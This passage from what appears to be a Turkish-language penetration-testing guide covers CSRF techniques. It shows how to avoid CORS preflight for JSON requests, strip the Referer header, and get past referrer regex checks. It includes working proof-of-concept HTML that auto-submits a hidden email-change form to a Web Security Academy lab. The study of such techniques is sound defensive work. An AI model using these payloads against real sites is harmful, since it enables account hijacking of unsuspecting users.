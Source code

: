```html
form.submit()
</script>
</body>
</html>
```
### JSON Verileri için Ön Uç İsteklerini Aşma

JSON verilerini bir POST isteği ile göndermeye çalışırken, bir HTML formunda `Content-Type: application/json` kullanmak doğrudan mümkün değildir. Benzer şekilde, bu içerik türünü göndermek için `XMLHttpRequest` kullanmak bir ön uç isteği başlatır. Yine de, bu sınırlamayı aşmanın ve sunucunun JSON verilerini Content-Type'a bakılmaksızın işleyip işlemediğini kontrol etmenin stratejileri vardır:

1. **Alternatif İçerik Türlerini Kullanma**: Formda `enctype="text/plain"` ayarlayarak `Content-Type: text/plain` veya `Content-Type: application/x-www-form-urlencoded` kullanın. Bu yaklaşım, arka ucun içerik türüne bakılmaksızın verileri kullanıp kullanmadığını test eder.
2. **İçerik Türünü Değiştirme**: Sunucunun içeriği JSON olarak tanımasını sağlarken bir ön uç isteğinden kaçınmak için verileri `Content-Type: text/plain; application/json` ile gönderebilirsiniz. Bu, bir ön uç isteği tetiklemez ancak sunucu `application/json` kabul edecek şekilde yapılandırılmışsa doğru bir şekilde işlenebilir.
3. **SWF Flash Dosyası Kullanımı**: Daha az yaygın ama uygulanabilir bir yöntem, bu tür kısıtlamaları aşmak için bir SWF flash dosyası kullanmaktır. Bu tekniği daha derinlemesine anlamak için [bu gönderiye](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937) bakın.

### Referrer / Origin kontrolünü aşma

**Referrer başlığından kaçının**

Uygulamalar, 'Referer' başlığını yalnızca mevcut olduğunda doğrulayabilir. Bir tarayıcının bu başlığı göndermesini önlemek için aşağıdaki HTML meta etiketi kullanılabilir:
```xml
<meta name="referrer" content="never">
```
Bu, 'Referer' başlığının hariç tutulmasını sağlar ve bu da bazı uygulamalardaki doğrulama kontrollerinin atlanmasına neden olabilir.

**Regexp atlamaları**

{{#ref}}
ssrf-server-side-request-forgery/url-format-bypass.md
{{#endref}}

Referrer'ın parametreler içinde göndereceği URL'deki sunucunun alan adını ayarlamak için şunları yapabilirsiniz:
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head>
<meta name="referrer" content="unsafe-url" />
</head>
<body>
<script>
history.pushState("", "", "/")
</script>
<form
action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email"
method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState(
"",
"",
"?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net"
)
```